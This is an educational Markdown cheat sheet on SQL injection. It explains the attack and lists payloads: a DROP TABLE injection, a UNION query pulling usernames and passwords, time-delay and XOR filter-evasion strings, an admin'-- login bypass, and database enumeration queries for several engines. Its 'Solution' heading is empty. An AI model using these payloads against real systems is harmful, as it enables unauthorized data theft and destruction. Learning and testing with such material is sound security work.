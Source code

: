<!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

Todo
- Example of an SQL injection with better explanation

# SQL Injection(SQLi)
SQL injection allows an attacker to make unrequested queries or modifications to the database.

Let's assume the server makes this query with user input. `SELECT * FROM users WHERE = 'user_input';`

If the user were to input `' OR 1=1; DROP TABLE users; --` the resulting query would be `SELECT * FROM users WHERE = '' OR 1=1; DROP TABLE users; -- ';`.

This allows the user to write any SQL to the db. Everything after the `--` is commented out so the request doesn't error out.

Sometimes `#` can be used as comments instead of `--`

When sending request over the URL you can use `%20` as spaces.

## Test is the db vulnerable to SQLi
- Look for SQL keywords in source code which may tell you what they are using.
- Input single quote `'` and look for errors
- Input some SQL and see how that changes the responses. Ex: `ASCII(97)`
- Look at the response differences between `' OR 1=1; --` and `' OR 1=2; --`

Blind SQL injection are sql injections where the attacker cannot see any responses(including errors) from the database.

To solve this you can use
- Payloads designed to trigger time delays. Ex: `'; WAITFOR DELAY ('0:0:20');--` or `SELECT SLEEP(20);--`
- Out-of-bound network interactions
	- The attacker injects SQL which triggers the database to communicate with the attacker's server.

## List of good SQL attacks
- `' UNION SELECT username, password FROM users; --`
- `' OR 1=1; YOUR INJECTION HERE; --`
- Use XOR to prevent filters
	- Ex: `0'XOR(if(now()=sysdate(),sleep(20),0))XOR'Z`
- On a login page
	- `admin'--` or `administrator'--` for the username
- Get the version of the database
	- MySQL: `SELECT VERSION();`
	- Postgres: `SELECT version();`
	- SQL Server: `SELECT @@VERSION;`
	- Oracle: `SELECT * FROM v$version`
	- SQLite: `SELECT sqlite_version();`
	- IBM Db2: `SELECT * FROM sysibm.sysversions;`
- Get all tables
	- MySQL: `SHOW TABLES;`
	- Postgres, SQL Server: `SELECT * FROM information_schema.tables`
	- Oracle: `SELECT table_name FROM user_tables;`
	- SQLite: `SELECT name FROM sqlite_master WHERE type='table';`
	- IBM Db2: `SELECT tabname FROM syscat.tables'`
- Get all columns in a table
	- MySQL and Oracle: `DESCRIBE table_name;` or `SHOW COLUMNS FROM table_name;`
	- Postgres, SQL Server: `SELECT COLUMN_NAME from information_schema.columns where table_name = 'table_name'`
	- SQLite doesn't have this feature.
	- IBM Db2: `SELECT colname FROM syscat.columns WHERE tabname = 'table_name';`

## Solution
